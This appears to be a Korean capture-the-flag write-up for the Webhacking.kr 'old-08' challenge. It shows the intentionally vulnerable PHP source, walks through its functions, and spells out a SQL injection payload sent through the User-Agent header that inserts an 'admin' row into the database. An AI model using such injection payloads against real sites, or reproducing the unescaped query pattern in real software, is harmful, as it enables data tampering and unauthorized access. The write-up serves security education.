 ```yaml
---
title: ["[Webhacking.kr] old-08"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```

## Intro
```php
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
```

코드에서 사용된 주요 함수들을 정리해보자.  

* `trim()`: 문자열의 앞뒤 공백을 제거하는 함수
  ```php
  $agent = trim(" Mozilla/5.0 "); // "Mozilla/5.0"로 변환
  ```  

* `htmlspecialchars()`: 특수문자를 HTML 엔티티로 변환하여 XSS공격을 방지함
  ```php
  $text = "<script>alert(1)</script>";
  echo htmlspecialchars($text); // &lt;script&gt;alert(1)&lt;/script&gt; 출력
  ```

* `select count(id)`: 테이블의 id 컬럼의 총 행 수를 반환  

* `addslashes()`: `'`, `"`, `\`, `%00` 앞에 `\`를 추가하여 escape하는 함수
  
* `htmlentities()`: `htmlspecialchars`와 비슷하지만 더 많은 문자를 HTML 엔티티로 변환


## Analysis

```sql
select count(id) from chall8
select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'
insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')
```  

3개의 쿼리문이 있다.  
첫번째 쿼리문은 인젝션 포인트가 없고, 두번째 쿼리문의 `addslashes`는 상당히 강력한 함수이다.  
`addslashes` 보다 더 안전한 방식이 많지만, CTF문제를 풀때 `addslashes`를 우회하는 의도의 문제는 본 적이 없다.  

세번재 쿼리문은 인젝션 포인트가 있다.  
두번째 쿼리문처럼 `agent`를 `addslashes`했다면 상당히 어려운 문제가 됐거나 해결이 불가능할 수 있었다.  
하지만, `$agent=trim(getenv("HTTP_USER_AGENT"));` trim만 한 문자열이 들어며, `User-Agent`는 쉽게 조작할 수 있으므로 인젝션이 가능하다.  


## Payload

`User-Agent`를 `test','1.1.1.1','admin')#`로 설정하고 페이지에 접속하면 insert 쿼리문이 실행된다.  
```sql
insert into chall8(agent,ip,id) values('test','1.1.1.1','admin')#','ip','guest')
```  
`#`을 이용해 뒷부분을 주석처리하고, 원하는 데이터를 insert한다.

`User-Agent`를 `test`로 설정하고 접속하면,  
```sql
select id from chall8 where agent='test'
```  
쿼리문이 요청되며, 방금 insert한 데이터가 출력된다.